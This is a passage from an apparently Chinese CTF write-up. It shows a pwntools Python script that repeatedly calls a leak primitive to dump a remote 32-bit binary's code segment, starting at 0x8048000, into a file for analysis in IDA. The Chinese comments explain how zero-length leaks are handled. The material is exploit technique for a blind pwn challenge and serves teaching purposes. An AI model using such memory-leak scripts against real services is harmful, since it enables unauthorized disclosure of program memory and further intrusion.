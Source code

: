 ```plain

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1 ；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0 ，也就是数据是 \x00 的情况。地址增加 1 ，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

通过上述leak.py，我们可以在程序加载地址开始就泄露二进制文件，之后可以将获得的文件放入IDA

[![](assets/1701612281-aae779bbb927fd74c12c8c7acdacd1ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224053-19348e04-2579-1.png)
